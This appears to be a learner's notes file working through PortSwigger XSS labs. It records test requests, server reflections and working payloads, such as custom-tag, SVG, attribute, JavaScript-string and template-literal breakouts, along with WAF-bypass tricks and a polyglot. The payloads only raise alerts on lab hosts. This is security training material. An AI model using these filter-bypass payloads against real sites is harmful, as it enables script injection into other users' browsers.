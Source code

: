 # **xss burp labs**
https://portswigger.net/web-security/cross-site-scripting


# **Reflected XSS**
https://portswigger.net/web-security/cross-site-scripting/reflected



# **Exploiting cross-site scripting vulnerabilities - 3 labs**
https://portswigger.net/web-security/cross-site-scripting/exploiting

# ***1. Lab: Exploiting cross-site scripting to steal cookies***
https://portswigger.net/web-security/cross-site-scripting/exploiting/lab-stealing-cookies
// require burp colaborator - not solved


# ***2. Lab: Exploiting cross-site scripting to capture passwords***
https://portswigger.net/web-security/cross-site-scripting/exploiting/lab-capturing-passwords
// require burp colaborator - not solved


# ***3. Lab: Exploiting XSS to perform CSRF***
https://portswigger.net/web-security/cross-site-scripting/exploiting/lab-perform-csrf
// not solved



# **Cross-site scripting contexts - 15 labs**
https://portswigger.net/web-security/cross-site-scripting/contexts


# ***1. Lab: Reflected XSS into HTML context with nothing encoded***
https://portswigger.net/web-security/cross-site-scripting/reflected/lab-html-context-nothing-encoded

search field:
<script>alert(1)</script>

# ***2. Lab: Stored XSS into HTML context with nothing encoded***
https://portswigger.net/web-security/cross-site-scripting/stored/lab-html-context-nothing-encoded

test 1 - <script>alert(document.cookie)</script>


# ***3. Lab: Reflected XSS into HTML context with most tags and attributes blocked***
https://portswigger.net/web-security/cross-site-scripting/contexts/lab-html-context-with-most-tags-and-attributes-blocked
1. try baseline xss:
    GET /?search=<script>alert(1)</script> HTTP/1.1
    response:
    "Tag is not allowed"

2. check if tag not blocked using portswigger cheatsheet tag list via intruder:
    GET /?search=§§ HTTP/1.1

    200 responses:
    GET /?search=<body> HTTP/1.1          //not blocked!


3. check event for blockage (using portswigger cheatsheet event list via intruder:):
    GET /?search=§§ HTTP/1.1

    200 responses:
        GET /?search=<body%20onresize=1> HTTP/1.1          //not blocked!


4. lets craft an html page with an iframe containig the search payload. the iframe also contains a command (executed on load) to resize its width - causing the payload to be fired:
    <iframe src="https://0ac8001d04a89eb9c0751d16007f0036.web-security-academy.net/?search=%22%3E%3Cbody%20onresize=print()%3E" onload=this.style.width='100px'>

# POP!


# ***4. Lab: Reflected XSS into HTML context with all tags blocked except custom ones***
https://portswigger.net/web-security/cross-site-scripting/contexts/lab-html-context-with-all-standard-tags-blocked
1. try baseline xss:
<script>alert(1)</script>
tags blocked!

2. check if tag not blocked using portswigger cheatsheet tag list via intruder:
all known tags are bloced

3. check custom tags sing portswigger cheatsheet tag list via intruder:
all custom tags are not blocked

lets look for a payload from custom tags:
<xss id=x tabindex=1 onfocus=alert(1)></xss>

we will put it in a link to the search term and add hash call ("#") for the tag "x":

<script>
location = 'https://0a310080041f2ce7c0c165c1004c0044.web-security-academy.net/?search=<xss id=x tabindex=1 onfocus=alert(1)></xss>#x';
</script>

explanation:
location =                                                                      // JS command elling browser to go to a 
'https://0a310080041f2ce7c0c165c1004c0044.web-security-academy.net/?search=     // exploitable URL and inject
<xss id=x tabindex=1 onfocus=alert(1)></xss>                                    // payload utilizing custom tag (to bypass waf)
#x                                                                              // and fire it up with hash (correspondes with id=x and uses tabindex to autofocus the element)

see: 
https://portswigger.net/research/one-xss-cheatsheet-to-rule-them-all



# ***5. Lab: Reflected XSS with event handlers and href attributes blocked***
https://portswigger.net/web-security/cross-site-scripting/contexts/lab-event-handlers-and-href-attributes-blocked

label your vector with the word "Click":
<a href="">Click me</a>

1. try baseline xss:
<script>alert(1)</script>
"Tag is not allowed" 400

2. check if tag not blocked using portswigger cheatsheet tag list via intruder:
GET /?search=§§ HTTP/1.1

200 responses:
GET /?search=<a> HTTP/1.1
GET /?search=<animate> HTTP/1.1
GET /?search=<image> HTTP/1.1
GET /?search=<svg> HTTP/1.1
GET /?search=<title> HTTP/1.1

3. try adoptaion of last payload with <a> tag
<a id=x tabindex=1\000onfocus=alert(1)>Click me</a>
"Event is not allowed" 400

4. check event types for blockage (using portswigger cheatsheet event list via intruder:):
all event in the cheetlist are blocked by waf

5. look for eventless payload - using find on the cheetsheet for animate we get:
<svg x=">" onload=alert(1)> 

breakdown:
//    1. the ">" makes WAF thinks its the end of the tag so he doesnt block the onload event handler. 
//    2. why it works also without the "click" string - IDK

POP!

original Polyglot XSS payload:
-->'"/></sCript><svG x=">" onload=(co\u006efirm)``>
by @s0md3v from:
https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection#polyglot-xss


portswiggers payload (requiers user interaction):
```
<svg><a><animate attributeName=href values=javascript:alert(2) /><text x=20 y=20>Click me</text></a>
```

**1. breakdown:**
```
    <svg>   // whitelisted tag 
        <a>     // whitelisted tag (?why need 2 tags?)
            <animate attributeName=href values=javascript:alert(1) />
            <text x=20 y=20>Click me</text>
    </a> -->
```

# ***6. Lab: Reflected XSS with some SVG markup allowed***
https://portswigger.net/web-security/cross-site-scripting/contexts/lab-some-svg-markup-allowed

<svg x=">" onload=alert(1)> 

# ***7. Lab: Reflected XSS into attribute with angle brackets HTML-encoded***
https://portswigger.net/web-security/cross-site-scripting/contexts/lab-attribute-angle-brackets-html-encoded
<script>alert(1)</script>
reflects twice on page:
1. inside a header:
    <h1>0 search results for ''&gt;&lt;script&gt;alert(1)&lt;/script&gt;'o'</h1>
2. in the search bar:
    <input type="text" placeholder="Search the blog..." name="search" value="<script>alert(1)</script>">

the <h1> tag escape tries fails so going to <input> tag and changing to event handler payload:
    " autofocus onfocus=alert(document.domain) x="
reflected as:
    <input type="text" placeholder="Search the blog..." name="search" value="" autofocus="" onfocus="alert(document.domain)" x="">
POP!



# ***8. Lab: Stored XSS into anchor href attribute with double quotes HTML-encoded***
https://portswigger.net/web-security/cross-site-scripting/contexts/lab-href-attribute-double-quotes-html-encoded


To solve this lab, submit a comment that calls the alert function when the comment author name is clicked. 

1 try:
POST /post/comment HTTP/1.1

csrf=zldcOMiQQXjD7RtgPjTfwZEypoHRh2KP&postId=4&comment=walla%3F&name=hacker&email=clean%40token.com&website=test.com

response:
<p><img src="/resources/images/avatarDefault.svg" class="avatar"><a id="author" href="website=test.com">hacker</a> | 03 July 2022</p>

change href attribute value from "website=test.com" to "javascript:alert()" and resend via repeater

now we get clickble link that preform XSS POC

POP!

# ***9. Lab: Reflected XSS in canonical link tag***
https://portswigger.net/web-security/cross-site-scripting/contexts/lab-canonical-link-tag

for canonical manipultion lets try adding arbitary paramaeter to the URL:
    ?test
full path: 
    https://0a4100be0430aa3bc0926f20007d0094.web-security-academy.net/?test

reflect:
    <head>
    ..
        <link rel="canonical" href='https://0a4100be0430aa3bc0926f20007d0094.web-security-academy.net/?test'/>
    ..
    </head>

lets change "?test" with payload:
    ?'accesskey='x'onclick='alert(1)


payload breakdown:
    ?                   // param
    '                   //breaks out of href field - wired since in js it uses ". maybe php back server uses ' ?
    accesskey='x'       // define shortcut key "x"  
    onclick='alert(1)   // when accessed via "x" key preform this action 

    // **access key to be accessed by ALT+SHIF+"x" in firefox.(in chrome/IE/safari/Opera15+ its just ALT+"X")


full path:
    https://0acb007104d7d0f9c07124ee00810023.web-security-academy.net/?%27accesskey=%27x%27onclick=%27alert(1)


reflection:
    <head>
    ..
        <link rel="canonical" href="https://0acb007104d7d0f9c07124ee00810023.web-security-academy.net/?" accesskey="x" onclick="alert(1)">
    
    <!-- no need for user interaction if we just use autofocus onfocus?
    ?'autofocus+onfocus%3dalert()
    full path
    https://0a4100be0430aa3bc0926f20007d0094.web-security-academy.net/?'autofocus+onfocus%3dalert()

    ?tabindex=1+id=x+onfocus%3dalert(3) -->


# ***10. Lab: Reflected XSS into a JavaScript string with single quote and backslash escaped***
https://portswigger.net/web-security/cross-site-scripting/contexts/lab-javascript-string-single-quote-backslash-escaped

hint:
</script><img src=1 onerror=alert(document.domain)>

test - search for test and look for reflections:
GET /?search=test HTTP/1.1

reflection:
    <script>
        var searchTerms = 'test';
        document.write('<img src="/resources/images/tracker.gif?searchTerms='+encodeURIComponent(searchTerms)+'">');
    </script>

payload to escape the code:
</script><img src=1 onerror=alert(document.domain)>

reflection:
    <script>
        var searchTerms = '\'</script><img src=1 onerror=alert(document.domain)>';
        document.write('<img src="/resources/images/tracker.gif?searchTerms='+encodeURIComponent(searchTerms)+'">');
    </script>



POP!

# ***11. Lab: Reflected XSS into a JavaScript string with angle brackets HTML encoded***
https://portswigger.net/web-security/cross-site-scripting/contexts/lab-javascript-string-angle-brackets-html-encoded

hints:
    '-alert(document.domain)-'
    ';alert(document.domain)//


test - search for test and look for reflections:
GET /?search=test HTTP/1.1

reflection:
    <script>
        var searchTerms = 'test';
        document.write('<img src="/resources/images/tracker.gif?searchTerms='+encodeURIComponent(searchTerms)+'">');
    </script>

trying prevoius payload:
'</script><img src=1 onerror=alert(document.domain)>

reflection:
                   <script>
                        var searchTerms = ''&lt;/script&gt;&lt;img src=1 onerror=alert(document.domain)&gt;';
                        document.write('<img src="/resources/images/tracker.gif?searchTerms='+encodeURIComponent(searchTerms)+'">');
                    </script>

payloads (since we already inside script) - both works:
';alert(document.domain)//
'-alert(document.domain)-'

reflections:
    <script>
        var searchTerms = '';alert(document.domain)//';
        document.write('<img src="/resources/images/tracker.gif?searchTerms='+encodeURIComponent(searchTerms)+'">');
    </script>
    <script>
        var searchTerms = ''-alert(document.domain)-'';
        document.write('<img src="/resources/images/tracker.gif?searchTerms='+encodeURIComponent(searchTerms)+'">');
    </script>

POP!

# ***12. Lab: Reflected XSS into a JavaScript string with angle brackets and double quotes HTML-encoded and single quotes escaped***
https://portswigger.net/web-security/cross-site-scripting/contexts/lab-javascript-string-angle-brackets-double-quotes-encoded-single-quotes-escaped

test last payload:
    GET /?search=';alert(document.domain)//  HTTP/1.1

reflection
    <script>
        var searchTerms = '\';alert(document.domain)//';
        document.write('<img src="/resources/images/tracker.gif?searchTerms='+encodeURIComponent(searchTerms)+'">');
    </script>

' is escaped

use double escape ' to breakout:
    GET /?search=\';alert(document.domain)// HTTP/1.1

reflection:
    <script>
        var searchTerms = '\\';alert(document.domain)//';
        document.write('<img src="/resources/images/tracker.gif?searchTerms='+encodeURIComponent(searchTerms)+'">');
    </script>

payload:
    \';alert(document.domain)//


# ***13. Lab: Reflected XSS in a JavaScript URL with some characters blocked***
https://portswigger.net/web-security/cross-site-scripting/contexts/lab-javascript-url-some-characters-blocked

hint:
    onerror=alert;throw 1

test:
POST /post/comment HTTP/1.1

csrf=L51ljiFGeK4JW8fE59ZWWdebbnezsNCc&postId=3&comment=test&name=test&email=clean%40token.com&website=https:test.

reflection
    <p>
    <img src="/resources/images/avatarDefault.svg" class="avatar"><a id="author" href="http://test.">test</a> | 03 July 2022
    </p>

check1:
    https://'<script>alert()</script>

reflection:
    <a id="author" href="https://&apos;&lt;script&gt;alert()&lt;/script&gt;">test</a>

check2:
https://"+onerror=alert;throw+1337

<a id="author" href="https://&quot; onerror=alert;throw 1337">test</a>

https://0a1800cb03087020c0b574f400240037.web-security-academy.net/post?postId=5&%27},x=x=%3E{throw/**/onerror=alert,1337},toString=x,window%2b%27%27,{x:%27


port solution:
'},x=x=>{throw/**/onerror=alert,1337},toString=x,window%2b'',{x:'

???


# ***14. Lab: Stored XSS into onclick event with angle brackets and double quotes HTML-encoded and single quotes and backslash escaped***
https://portswigger.net/web-security/cross-site-scripting/contexts/lab-onclick-event-angle-brackets-double-quotes-html-encoded-single-quotes-backslash-escaped

try:
    http://alert')
reflection:
    <a id="author" href="http://alert\')" onclick="var tracker={track(){}};tracker.track('http://alert\')');">

try:
    http://alert\')
reflection:
    <a id="author" href="http://alert\')" onclick="var tracker={track(){}};tracker.track('http://alert\\\');">
learned: \ and ' are escaped

try (aubstitues to '):
    '%27\x27&#39;&apos;
reflect:
    <a id="author" href="http://\'\'\\x27&#39;&apos;" onclick="var tracker={track(){}};tracker.track('http://\'\'\\x27&#39;&apos;');">
learned: hex escape (\x00) and octa escape(\00)) are useless here


try (HtmlEnc --> UrlEnc):
    http://&apos;&#37;&#50;&#55;&#92;&#120;&#50;&#55;&amp;&#35;&#51;&#57;&#59;&amp;&#97;&#112;&#111;&#115;&#59;alert")
        http://%26apos%3b%26%2337%3b%26%2350%3b%26%2355%3b%26%2392%3b%26%23120%3b%26%2350%3b%26%2355%3b%26amp%3b%26%2335%3b%26%2351%3b%26%2357%3b%26%2359%3b%26amp%3b%26%2397%3b%26%23112%3b%26%23111%3b%26%23115%3b%26%2359;alert")
reflect:
 <a id="author" href="http://&apos;&#37;&#50;&#55;&#92;&#120;&#50;&#55;&amp;&#35;&#51;&#57;&#59;&amp;&#97;&#112;&#111;&#115;&#59;alert&quot;)" onclick="var tracker={track(){}};tracker.track('http://&apos;&#37;&#50;&#55;&#92;&#120;&#50;&#55;&amp;&#35;&#51;&#57;&#59;&amp;&#97;&#112;&#111;&#115;&#59;alert&quot;)');">

browser do URL decode but not HTML decode


" http://alert "
' http://alert '
are they different? '/" ?

try:
    http://alert")
reflect:
<a id="author" href="http://alert&quot;)" onclick="var tracker={track(){}};tracker.track('http://alert&quot;)');">

try:
    "%22\x22&#34;&quot;
reflect:
    <a id="author" href="http://&quot;&quot;\\x22&#34;&quot;tpalert&quot;)" onclick="var tracker={track(){}};tracker.track('http://&quot;&quot;\\x22&#34;&quot;tpalert&quot;)');">


try (aubstitues to '):
    http://'%27%26#39;%26apos;alert()
try (urlencoded X1)
'%2527%26%2339%3b%26apos%3balert

reflect:
    <a id="author" href="http://\'%27%26#39;%26apos;alert()" onclick="var tracker={track(){}};tracker.track('http://\'%27%26#39;%26apos;alert()');">

try (urlencode X2):
http%3a//'%2527%2526%2339%3b%2526apos%3balert()
    <a id="author" href="http://\'%27%26#39;%26apos;alert()" onclick="var tracker={track(){}};tracker.track('http://\'%27%26#39;%26apos;alert()');">


try:
https://0a1c00a404fd51e9c1e76ff900ec007f.web-security-academy.net/%26#39;'--%0d%0a;alert(document.domain)//
ref:
https://0a1c00a404fd51e9c1e76ff900ec007f.web-security-academy.net/'/'--!%3E;alert(document.domain)//



post solutions:
http://foo?&apos;-alert(1)-&apos;

?? do you send it as is or do you url encode the & ?




# ***15. Lab: Reflected XSS into a template literal with angle brackets, single, double quotes, backslash and backticks Unicode-escaped***
https://portswigger.net/web-security/cross-site-scripting/contexts/lab-javascript-template-literal-angle-brackets-single-double-quotes-backslash-backticks-escaped

hint: ${alert(document.domain)}

try:
```
test`\
```
reflection in response:
    <script>
        var message = `0 search results for 'test\u0060\u005c'`;
        document.getElementById('searchMessage').innerText = message;
    </script>

payload:
${alert(document.domain)} 



$) // just to close previous topic



# **Exploiting cross-site scripting vulnerabilities**
https://portswigger.net/web-security/cross-site-scripting/exploiting

# 1***. Lab: Exploiting cross-site scripting to steal cookies***
https://portswigger.net/web-security/cross-site-scripting/exploiting/lab-stealing-cookies

require pro
# TBC


# 2. ***Lab: Exploiting cross-site scripting to capture passwords***
https://portswigger.net/web-security/cross-site-scripting/exploiting/lab-capturing-passwords

require pro
# TBC


# ***3. Lab: Exploiting XSS to perform CSRF***
https://portswigger.net/web-security/cross-site-scripting/exploiting/lab-perform-csrf

require pro
# TBC












<!-- 
# **AngularJS sandbox**
https://portswigger.net/web-security/cross-site-scripting/contexts/angularjs-sandbox


# ***1. Lab: Reflected XSS with AngularJS sandbox escape without strings***

<script>angular.module('labApp', []).controller('vulnCtrl',function($scope, $parse) {
    $scope.query = {};
    var key = 'search';
    $scope.query[key] = 'test';
    $scope.value = $parse(key)($scope.query);
});</script>

# TBC -->


